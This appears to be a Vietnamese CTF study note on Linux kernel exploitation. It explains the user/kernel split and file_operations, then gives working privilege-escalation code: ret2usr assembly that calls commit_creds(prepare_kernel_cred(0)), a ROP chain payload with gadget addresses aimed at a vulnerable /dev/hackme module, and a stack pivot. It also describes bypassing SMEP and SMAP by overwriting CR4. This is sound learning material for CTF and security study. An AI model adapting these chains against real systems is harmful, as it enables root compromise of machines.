

# Tìm hiểu về kernel

## Nguồn tham khảo

https://hackmd.io/@ChinoKafuu/kernel

## Một số thông tin

- Thông thường khi tôi chơi ctf, quá trình debug tôi thấy rằng vùng địa chỉ từ 0x5.. đến 0x7fff mà tựa hỏi sau 0x7fff... là gì? Tại sao không đến 0xffff. Thì trong quá trình tìm hiểu kernel, tôi nhận thấy rằng, máy tính chia thành 2 phần là `user-land` và `kernel-land`. Dưới đây là vùng nhớ của 32/64 bit
  
- Khi chúng ta exploit các file bin, các tiến trình đang hoạt động ở user-land. Khi exploit kernel, ta có thể can thiệp cả user-land và kernel-land.
- Các thiết bị như bàn phím, chuột thường được xử lý ở user-land. Để tương tác với kernel-land, các process sẽ yêu cầu sự giúp đỡ từ kernel-land bằng `syscall`
- Có một số lớp bảo vệ nhưng chúng ta sẽ tìm hiểu sau.

### cách định nghĩa 1 fops

- Việc exploit sẽ là tương tác với 1 module kernel (file .ko - là một phần mở rộng của kernel, để có thể thêm chức năng mà không phải build lại kernel). Và như ở thông tin trên, ta chỉ có thể tương tác với kernel thông qua syscall, vậy làm sao để khi ta gọi 1 syscall read thì nó sẽ thực thi read trong kernel hay read trong module? Sau một hồi hỏi cung chatGPT thì tôi có 1 số thông tin như sau. Đầu tiên để tương tác với 1 module, ta cần mở file(hàm open(<tên file>, ...)). Thứ 2, trong module cần có một cấu trúc `file_operations` (fops) chứa các con trỏ trỏ đến các hàm xử lý trong module. Ví dụ

```
static struct file_operations fops = {
    .open = my_module_open,
    .read = my_module_read,
    .write = my_module_write,
    .release = my_module_release,
    // ...
};
```

```c
g_fd = open("/dev/hackme", O_RDWR);
read(g_fd, buf, sizeof(buf))
// thực thi hàm read trong module hackme
```

# setup debug

https://github.com/ysf/gef-bata

# Một số kĩ thuật khai thác kernel

- ret2user
  - status switch
- modify cr4 register
  - bypass smep
  - bypass smap
- kpti
  - fix cr3 register
  - swapgs_restore_regs_and_return_to_usermode()
- kernel information leak
  - useful kernel structure for UAF
- modprobe_path
- userfaultfd
  - race condition
- setxattr
  - setxattr + userfaultfd
- msg_msg
- signal handler

## ret2usr

```c
void save_state()
{
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;");
    puts("[*] Saved state");
}

void escalate_privs(void)
{
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" // prepare_kernel_cred
        "xor rdi, rdi;"
        "call rax; mov rdi, rax;"
        "movabs rax, 0xffffffff814c6410;" // commit_creds
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;");
}

```

## modify cr4 register
- Reference: @ChinoKafuu, https://ctf-wiki.mahaloz.re/pwn/linux/kernel/bypass_smep/, https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/
### smep và smap
- `smep` ngăn chặn việc thực thi mã trong user mode từ kernel mode
- nó được bật bằng cách set bit thứ 20 của thanh ghi CR4. 
- Enable thêm +smep vào ở -cpu và disable thêm nosmap vào -append
- `smap` ngăn chặn việc truy cập dữ liệu trong kernel mode từ user mode
- nó được bật bằng cách set bit thứ 21 của thanh ghi CR4.
 
### bypass
#### overwrite CR4
- Ta sẽ cố gắng set thanh ghi `rc4 = 0x6f0` bằng native_write_cr4(value)
- Đối với các kernel cũ thì ta chỉ cần `pop rdi`. Tuy nhiên các phiên bản kernel mới đã có chức năng `pin` các bit của `rc4` khiến chúng không thể bị overwrite
```c
void native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) { // check
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```
# ROP chain
- Cách thứ 2, ta có thể sử dụng các gadget
```
ROP into prepare_kernel_cred(0).
ROP into commit_creds(), with the return value from step 1 as parameter.
ROP into swapgs ; ret.
ROP into iretq with the stack setup as RIP|CS|RFLAGS|SP|SS.
```

```c
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}

```

#### stack pivot
- Trường hợp smap tắt 
- Một ví dụ khi ta muốn stack pivot thành 0x5b000000
```c
void build_fake_stack(void){
    fake_stack = mmap((void *)0x5b000000 - 0x1000, 0x2000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, -1, 0);
    unsigned off = 0x1000 / 8;
    fake_stack[0] = 0xdead; // put something in the first page to prevent fault
    fake_stack[off++] = 0x0; // dummy r12
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = pop_rdi_ret;
    ... // the rest of the chain is the same as the last payload
}
```